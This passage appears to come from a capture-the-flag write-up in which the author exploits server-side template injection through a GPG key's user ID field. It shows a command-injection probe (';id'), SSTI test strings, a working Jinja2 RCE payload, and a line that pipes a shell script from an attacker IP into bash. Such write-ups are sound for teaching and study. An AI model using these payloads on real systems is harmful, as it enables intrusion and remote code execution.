 ```
gpg> adduid
Real name: ;id
Email address: 
Comment: 
You selected this USER-ID:
    ";id"

Change (N)ame, (C)omment, (E)mail or (O)kay/(Q)uit? O
```

I tried a few payloads for different vulnerabilities, and found that SSTI worked:

```
$ gpg --list-keys
pub   rsa3072 2023-06-20 [SC] [expires: 2025-06-19]
      31EA5FC83F24B3E99B87885ED6F62FD89D66C0B7
uid           [ultimate] {{7*7}}
uid           [ultimate] test123
sub   rsa3072 2023-06-20 [E]
```

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

A bit more testing revealed that `{{7*'7'}}` works as well:

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

I tested both Twig and Jinja2 payloads, and got RCE using this payload:

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

I tried to execute this, but it didn't work:

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl 10.10.14.3/shell.sh|bash').read() }}
```
